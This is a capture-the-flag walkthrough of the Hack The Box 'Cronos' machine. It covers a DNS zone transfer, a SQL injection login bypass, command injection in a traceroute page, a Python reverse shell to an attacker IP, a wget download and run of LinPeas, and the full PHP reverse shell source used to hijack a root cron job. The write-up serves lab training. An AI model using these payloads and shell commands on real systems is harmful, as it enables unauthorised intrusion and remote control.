@@@
Title=HTB: Cronos
Description=Cronos is a Medium Linux Hack The Box machine. This box requires a low level understanding of DNS to enumerate subdomains using a zone transfer. With these new subdomains we gain access to a web terminal through a SQL injection. This gives us reverse shell which we then escalate to root through a cron job. Overall this was a fun box that made you use DNS before you could do anything else.
@@@



# Initial Scans
We start by running a full port service version Nmap scan. After some time, we get our results back and find three open ports. 

~~~
hybryx@kali:~/Documents/cronos/nmap/fullNmap$ nmap -oA cronosFull -p- -sV cronos
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-01 17:53 EST
Nmap scan report for cronos (10.10.10.13)
Host is up (0.030s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.88 seconds
~~~

# Bind 9 Enum
We see that ISC BIND 9 is open which is a DNS service. We can see if we can get a zone transfer from this DNS server. A zone transfer is when a DNS server sends its known DNS records to the requester. This is a powerful enumeration tool for us since it will leak all the named domains that the target service knows about. 

~~~
hybryx@kali:~/Documents/cronos/nmap/fullNmap$ dig axfr cronos.htb @cronos

; <<>> DiG 9.16.4-Debian <<>> axfr cronos.htb @cronos
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 28 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Fri Jan 01 18:34:21 EST 2021
;; XFR size: 7 records (messages 1, bytes 203)
~~~

We can see from the zone transfer that we have one domain with two sub domains; cronos.htb, admin.cronos.htb, and ns1.cronos.htb. 

# HTTP Enum
Now that we have some subdomains, we can visit them in a web broswer to see what they have to offer. By visiting just the IP, no virtual hosting, it is just the default apache page. But if we visit the admin.cronos.htb subdomain we see the following. 



# Admin Subdomain Enum
We see that this subdomain contains a standard login form. We can try some very simple SQL Injections to see if we can bypass this login. Eventually we are able to login using 
~~~
admin' or '1'='1
~~~
 in the username field.  



We are able to login with this SQL Injection and we get to a Webpage that appears to host a traceroute tool.



When we try to actually use this tool it appears to execute it traceroute request but not show any results. If we assume that this is using a bash system execute we can append extra commands by using the bash command delimiter of ; (semicolon). By tracerouting 
~~~
;ls
~~~
 we see that we can execute remote commands



Next we see what tools we have that could help us get a shell. By running 
~~~
;which python
~~~
 we can see that we have access to python2. 



We can use python to throw us a reverse shell. First, we start a netcat listener on our local machine;
~~~
nc -lvp 8989
~~~
. Now we use python to throw us a reverse shell. Execute the following command in the traceroute web command. Make sure to change out the IP and port number to your own choosing!

~~~
;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",8989));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

Then we check our listener to see that we have a shell as www-data. We see that it is not a tty so we use python's tty module to upgrade our shell. 
~~~
python -c 'import tty; tty.spawn("/bin/bash")'
~~~



From here we cd to home and find that there is a user named noulis. We also find that we are able to read the user flag. 



# Priv Esc to Root
Now we need to start looking for a path to root. We upload LinPeas to the system using wget. First we start a python3 http server on our local machine in the same directory as the LinPeas script; 
~~~
python3 -m http.server
~~~
. Next we use wget in our reverse shell on the target machine to use http get to retrieve this enum script. We do this from the /tmp directory so that we have full permissions on the file; 
~~~
cd /tmp && wget http://10.10.14.15:8000/linpeas.sh
~~~
. Now that we have the enum script on the system, we add the execute flag and run the script; 
~~~
chmod +x linpeas.sh && ./linpeas.sh
~~~
.

After reading this file we see the following line.


The five asterisk means that this scripts runs every minute. We check the permissions on that file to be the following. 

~~~
www-data@cronos:/var/www/laravel$ ls -al artisan
ls -al artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan
~~~

This file is owned by the user we currently are and is being executed by root every minute. This is a php file so we will use [Pentest Monkey's PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Change the IP and Port lines and transfer the file to the target machine using the python http server like we did before saving the file in /tmp. My file after alteration is: 

~~~
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.15';  // CHANGE THIS
$port = 8991;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
~~~

We are about to try and get our root shell but we need a bunch of things to happen at once. First, open up a NetCat listener with the port you selected in the PHP Reverse Shell script; 
~~~
nc -lvp 8991
~~~
. We do not want to alter the original file in case we need to replace it back to original on the system but we do not want to crash anything if the cron job runs and there's no file to execute. We will be moving all the files at the same time to prevent any errors. We will move the original file to a backup file, and move the reverse shell into the laravel directory and renaming it to be the same as the original so the cron job executes it; 
~~~
mv artisan artisan.bak && mv /tmp/php-reverse-shell.php ./artisan
~~~
. 

Go check your NetCat listener and after a minute or so you should see a root shell. 



We CD to /root and grab root flag. 


